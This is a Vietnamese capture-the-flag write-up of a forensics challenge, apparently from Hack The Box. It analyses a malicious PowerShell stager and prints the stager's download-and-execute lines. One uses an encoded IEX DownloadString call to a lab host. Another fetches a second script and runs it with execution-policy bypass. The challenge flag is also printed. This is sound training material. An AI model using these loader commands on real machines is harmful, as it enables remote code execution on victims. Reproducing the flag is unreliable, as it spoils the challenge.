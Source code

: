 # _Thorin’s Amulet_ _(FORSENSICS)_

![image](https://github.com/user-attachments/assets/1f8fd6b4-c229-4ca2-aa4e-ce5120d5db9e)

Nhận được file ps1

```powershell
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
```

Decode base64 nhận được 1 đường link, thử truy dùng port để truy cập nhưng kh đc

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
```

Đọc kĩ lại mô tả thì thấy có NOTE

> Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.

Mình dùng kali để add IP và domain vào /etc/host/

![image](https://github.com/user-attachments/assets/639b3022-3acc-40ac-be10-345154933c52)

Truy cập thử, thì nhận được file ps1 tiếp

```powershell
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
```

Lệnh trên thực hiện tải file ps1 và chạy với lệnh Bypass, muốn xem file có gì thì mình dùng curl kết hợp với KEY xác thực

![image](https://github.com/user-attachments/assets/f404de2a-bac1-4d15-a224-45825120d93a)

Decode là nhận được flag

```
HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}
```



